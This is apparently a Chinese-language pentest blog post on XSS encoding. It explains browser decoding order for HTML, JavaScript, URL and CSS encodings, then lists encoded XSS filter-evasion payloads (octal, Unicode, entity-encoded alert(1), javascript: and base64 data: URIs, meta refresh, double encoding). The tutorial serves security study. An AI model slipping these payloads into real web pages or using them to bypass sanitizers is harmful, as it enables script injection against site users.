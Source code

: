 +++
date = "2017-03-30T15:25:37+08:00"
description = ""
draft = false
tags = ["xss"]
title = "XSS中的编码"
topics = ["Pentest"]

+++

### 0x00 浏览器解析
> ```
浏览器收到服务器发来的HTML内容，会从头解析，遇到<script></script>时，会调用js脚本解析器来解析并执行脚本，然后继续解析其他的HTML内容，对于需要触发才能执行的事件，当事件触发时脚本解析器才会解析其中的脚本，在这之前它是HTML的一部分
```

### 0x01 一些编码
* URL编码
```
%+字符的ASCII编码对应的两位十六进制，如"/"的url编码为"%2F"
```

* HTML编码
    * 实体编码
    ```
    &开头分号结尾，如 "<" 的编码是 "&lt;"
    ```

    * 字符编码
    ```
    样式为"&#数值;"，数值可为10进制、16进制ASCII编码或unicode字符编码
    如"<"可编码为"&#060;"和"&#x3c;"，但是必须在属性值里面
    ```

* JS编码
```
1、两个十六进制数字，如果不够个数，前面补0，例如"<"编码为"\x3c"
2、三个八进制数字，如果不够个数，前面补0，例如"<"编码为"\074"
3、四个十六进制数字，如果不够个数，前面补0，例如"<"编码为"\u003c"
4、对于一些控制字符，使用特殊的C类型的转义风格（例如\n和\r）
```

* CSS编码
```
反斜线(\)后跟1~6位的16进制数字，如"e"为"\65"或"65"或"00065"
```

### 0x02 编码与解码顺序
> 解码时先解码最外层，编码时先编码最内层
```html
如<td onclick="openUrl(add.do?userName='{$value}');">11</td>，
首先value出现在url中，而url在js中，而js又是html一部分，所以
解码顺序为：html解码->js解码->url解码
编码顺序为：url编码->js编码->html编码
```

### 0x03 利用
* 八进制
```
<p id="test"></p>
<script type="text/javascript">
var test = "\74\151\155\147\40\163\162\143\75\170\40\157\156\145\162\162\157\162\75\141\154\145\162\164\50\61\51\76";
var p = document.getElementById('test'); #这里会进行js解码
p.innerHTML = test;
</script>
```

* 十进制和十六进制
```
<img src=x onerror="\u0061\u006c\u0065\u0072\u0074(1)">
<img src=x onerror="&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;">
```

* javascript协议
```
<a href="javascript:alert(1)">xxx</a>
```

* data协议
```
<a href="data:text/html,<script>alert(1)</script>">xxxxxx</a>
<a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">111</a>
<meta http-equiv="refresh" content="x;url=data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">
```

* html5新增实体编码
```
<a href="javasc&NewLine;ript&colon;alert(1)">aaaa</a>
```

* 多次编码
```
点击后跳转到url，进行url解码
<a href="javascript:%61lert(1)">xxxx</a>
先最外围的html解码，然后href里的url解码
<a href="j&#x0061;vascript:&#x25;61lert(1)">click me</a>
```